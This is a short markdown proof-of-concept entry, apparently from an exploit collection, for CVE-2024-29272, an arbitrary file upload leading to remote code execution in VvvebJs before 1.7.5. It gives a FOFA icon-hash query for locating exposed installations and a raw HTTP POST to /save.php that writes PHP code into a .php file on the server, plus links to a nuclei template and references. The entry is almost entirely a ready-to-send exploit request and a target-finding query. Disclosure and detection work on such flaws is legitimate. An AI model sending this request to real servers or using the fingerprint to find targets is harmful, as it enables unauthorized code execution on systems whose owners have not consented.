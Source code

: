 ## VvvebJs < 1.7.5 Arbitrary File Upload - RCE (CVE-2024-29272)

## fofa
```
icon_hash="524332373"
```
## poc
```
POST /save.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

file=demo%2Flanding%2Findex.php&html=<?php%20phpinfo();%20?>
```
## nuclei Template
https://github.com/projectdiscovery/nuclei-templates/pull/10608/files

## ref
https://github.com/givanz/VvvebJs/issues/343
https://github.com/awjkjflkwlekfdjs/CVE-2024-29272/tree/main